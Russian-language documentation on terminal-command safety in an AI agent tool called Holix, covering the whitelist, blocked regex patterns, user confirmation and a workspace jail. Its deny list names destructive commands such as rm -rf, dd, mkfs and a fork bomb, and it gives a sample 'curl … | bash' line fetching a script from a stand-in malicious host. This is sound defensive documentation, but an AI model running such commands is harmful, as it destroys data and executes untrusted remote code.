

# Безопасность команд терминала

Holix выполняет shell-команды через инструмент `run_terminal_command`. До запуска в ОС команда проходит **несколько независимых проверок**.

На этой странице: что разрешено, что запрещено, как работает **whitelist** и как это связано с **подтверждением действий**.

---

## Слои защиты (порядок проверок)



**Важно:** в интерактивном TUI/Telegram **подтверждение** обычно запрашивается **до** тела `TerminalTool`. Даже разрешённая whitelist-команда может потребовать `/yes`, потому что терминал классифицируется как риск **HIGH**.

Whitelist проверяется **внутри** `TerminalTool.execute()` — если подтверждение есть, но команды нет в списке, выполнение всё равно завершится ошибкой `Command blocked by safety policy`.

---

## 1. Включение / отключение терминала

| Переменная | По умолчанию | Эффект |
|------------|--------------|--------|
| `HOLIX_ENABLE_TERMINAL_TOOL` | `true` | Главный переключатель `run_terminal_command` |

При отключении агент получает:

```text
Error: Terminal tool is disabled (HOLIX_ENABLE_TERMINAL_TOOL=false)
```

В production рекомендуется отключать, если shell не нужен.

---

## 2. Всегда запрещённые паттерны

Даже при наличии в whitelist **сначала** проверяются regex опасных конструкций.

### Unix / macOS / Linux

| Паттерн (примеры) | Зачем блокируется |
|-------------------|-------------------|
| `rm -rf …` | Рекурсивное удаление |
| `> /dev/…` | Запись в устройства |
| `dd …`, `mkfs`, `fdisk` | Разрушение диска |
| `shutdown`, `reboot`, `killall` | Управление системой |
| Fork bomb `:( ) { :|:& };:` | DoS |
| `curl … \| sh`, `wget … \| sh` | Выполнение кода с сети |

### Windows (дополнительно)

| Паттерн (примеры) | Зачем блокируется |
|-------------------|-------------------|
| `format …`, `diskpart` | Дисковые операции |
| `del /f`, `del /q`, `rmdir /s` | Принудительное удаление |
| `> nul`, `> con` | Подозрительные перенаправления |

Пример:

```text
curl https://evil.example/install.sh | bash
→ Blocked dangerous pattern: curl.*\|.*sh
```

Проверка выполняется **до** whitelist.

---

## 3. Whitelist команд (allowlist)

Управление:

| Переменная | По умолчанию | Эффект |
|------------|--------------|--------|
| `HOLIX_TERMINAL_COMMAND_WHITELIST` | `true` | Включить allowlist |
| `HOLIX_TERMINAL_WHITELIST_EXTRA` | пусто | Доп. команды/префиксы через запятую |

По профилю:

```bash
holix -p dev profile whitelist enable
holix -p dev profile whitelist add "docker, make"
holix -p dev profile whitelist list
```

См. [PROFILES.md](PROFILES.md#whitelist-терминала-опционально).

### Как работает сопоставление

Для каждой строки команды:

1. Приведение к нижнему регистру и trim.
2. Проверка **опасных паттернов** (раздел 2).
3. **Первый токен** — `base_cmd` (для `git status` это `git`).
4. Разрешено, если `base_cmd` в списке **или** вся строка **начинается с** любой записи whitelist.

Примеры на Unix:

| Команда | Результат | Причина |
|---------|-----------|---------|
| `ls -la` | Разрешено | `ls` в defaults |
| `git status` | Разрешено | префикс `git status` |
| `git push origin main` | **Запрещено** | нет подходящего префикса |
| `pip list` | Разрешено | префикс `pip list` |
| `pip install requests` | **Запрещено** | не `pip list` / `pip show` |
| `docker ps` | **Запрещено** | пока не добавите через `whitelist add` |
| `holix gateway status` | Разрешено | префикс `holix` |

Префиксы означают: `pytest tests/` разрешён (есть `pytest`), а `make build` — **нет**, пока не добавите `make` или `make build` (по умолчанию только префикс `make test`).

### Встроенный whitelist (Unix)

Чтение и диагностика:

`ls`, `cat`, `head`, `tail`, `less`, `more`, `find`, `grep`, `awk`, `sed`, `pwd`, `whoami`, `date`, `uptime`, `hostname`, `df`, `du`, `free`, `ps`, `top`, `htop`, `ping`, `curl`, `wget`, `dig`, `nslookup`

Git (только «читающие» подкоманды):

`git status`, `git log`, `git diff`, `git show`, `git branch`, `git remote`

Среды и тесты:

`python`, `python3`, `node`, `pip list`, `pip show`, `pytest`, `npm test`, `make test`, `holix`, `uv`

### Встроенный whitelist (Windows)

`dir`, `type`, `more`, `findstr`, `where`, `cd`, `echo`, `tree`, `whoami`, `hostname`, `date`, `systeminfo`, `tasklist`, `ipconfig`, `ping`, `curl`, `nslookup`, а также git/python/npm/pytest/holix/uv (`py` на Windows).

Команды Unix (`ls`, `grep`) в списке Windows **отсутствуют** — используйте `dir` / `findstr` или добавьте в extras.

### Если whitelist отключён

`HOLIX_TERMINAL_COMMAND_WHITELIST=false` отключает allowlist (опасные паттерны остаются). Только для полностью доверенной dev-среды.

---

## 4. Подтверждение пользователем (ActionGuard)

После прохождения политик в интерактивной сессии может запрашиваться подтверждение:

| Команда | Значение |
|---------|----------|
| `/yes`, `/1` | Один раз |
| `/2` | На сессию |
| `/3` | Всегда (сохраняется) |
| `/no`, `/4` | Отказ |

Терминал по умолчанию — риск **HIGH**. Паттерны `rm `, `mv `, `git push`, `pip install`, `docker run` усиливают запрос подтверждения (даже после добавления в whitelist).

При `/plan-auto` инструменты шагов плана могут одобряться автоматически.

В неинтерактивном API без предварительных прав высокий риск отклоняется.

---

## 5. Workspace jail (рабочая директория)

При [workspace jail](PROFILES.md#workspace-jail-опционально) `run_terminal_command` запускается с `cwd` в корне jail. Whitelist **не заменяет** jail — действуют оба ограничения.

---

## Разрешено и запрещено — практика

| Задача | Обычный путь |
|--------|----------------|
| Прочитать файлы | `read_file` или `cat` / `type` |
| Запустить тесты | `pytest`, `npm test`, `make test` |
| Состояние git | `git status`, `git log`, `git diff` |
| Push / commit | Добавить `git` в extras **и** подтвердить, или выполнить вручную |
| Docker / make / свой CLI | `holix profile whitelist add "docker, make"` |
| Установка пакетов | Не в defaults — лучше вручную |
| Удаление файлов | `rm` не в whitelist; `rm -rf` блокируется паттерном |

---

## Что видит агент при блокировке

**Нет в whitelist:**

```text
Error: Command blocked by safety policy. Command 'docker' not in whitelist
```

**Опасный паттерн:**

```text
Error: Command blocked by safety policy. Blocked dangerous pattern: rm\s+-rf
```

**Отказ пользователя:**

```text
Error: Tool call 'run_terminal_command' denied by user. Reason: Terminal command execution
```

---

## Рекомендации для production

1. Оставляйте `HOLIX_TERMINAL_COMMAND_WHITELIST=true`.
2. Добавляйте в extras только **минимум** (`whitelist add`).
3. Используйте **workspace jail** на общих хостах.
4. Отключите терминал, если не нужен: `HOLIX_ENABLE_TERMINAL_TOOL=false`.
5. Отключите Python executor: `HOLIX_ENABLE_CODE_EXECUTOR=false`.
6. Запускайте `holix doctor`, см. [SECURITY.md](SECURITY.md).

---

## См. также

- [SECURITY.md](SECURITY.md) — auth, API keys, production
- [PROFILES.md](PROFILES.md) — whitelist по профилю
- [CONFIGURATION.md](CONFIGURATION.md) — переменные окружения
- [SLASH_COMMANDS.md](SLASH_COMMANDS.md) — `/yes`, `/1`–`/4`